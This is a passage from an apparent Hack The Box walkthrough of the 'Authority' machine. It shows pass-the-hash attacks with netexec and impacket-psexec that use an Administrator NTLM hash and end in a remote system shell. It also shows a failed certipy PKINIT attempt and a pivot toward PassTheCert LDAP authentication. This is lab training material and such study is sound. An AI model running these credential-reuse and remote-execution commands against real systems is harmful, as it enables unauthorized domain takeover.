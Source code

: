 `netexec smb 10.10.11.222 -u 'Administrator' -H '6961f422924da90a6928197429eea4ed' -x 'whoami'`:
```
SMB         10.10.11.222    445    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.222    445    AUTHORITY        [+] authority.htb\Administrator:6961f422924da90a6928197429eea4ed (Pwn3d!)
SMB         10.10.11.222    445    AUTHORITY        [+] Executed command via wmiexec
SMB         10.10.11.222    445    AUTHORITY        htb\administrator ←
```

`impacket-psexec 'authority.htb/Administrator@10.10.11.222' -hashes ':6961f422924da90a6928197429eea4ed'`:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.11.222.....
[*] Found writable share ADMIN$ ←
[*] Uploading file sBzXShQw.exe
[*] Opening SVCManager on 10.10.11.222.....
[*] Creating service GPcV on 10.10.11.222.....
[*] Starting service GPcV.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.4644]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

<🔄 Alternative Step>

`certipy-ad auth -pfx ./administrator.pfx`:
```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
[0] UPN: 'administrator@authority.htb'
[1] DNS Host Name: 'authority.htb'
> 0
[+] Trying to resolve 'authority.htb' at '8.8.8.8'
[*] Using principal: administrator@authority.htb
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError:
KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type) ←
```
❌

We can get, instead, an error `KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)`. This likely means that the target Domain Controller does not support `PKINIT`.

We can, however, use the `PassTheCert` tool to authenticate against LDAP using [Schannel (Secure Channel)](https://techcommunity.microsoft.com/t5/core-infrastructure-and-security/demystifying-schannel/ba-p/259233).

To use this tool, we first must extract the `.crt` and `.key` files from the `.pfx` certificate file using either `certipy` or `OpenSSL`.
